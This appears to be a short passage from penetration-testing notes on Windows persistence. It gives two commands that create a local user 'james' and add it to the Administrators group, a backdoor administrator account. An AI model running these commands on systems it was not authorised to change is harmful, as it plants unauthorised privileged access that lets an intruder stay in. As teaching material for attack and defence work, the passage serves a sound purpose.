 **Persistence:**

Persistence methods can be as simple as adding a user to a system or as advanced as kernel-level rootkit that hides itself even from the Windows API making it virtually undetectable

1. Adding a User 

```
C:\Documents and Settings\Desktop> net user james password /add
```

   2. Add our new user to the relevant groups

```
C:\Documents and Settings\Desktop> net localgroup Administrators james /add
```



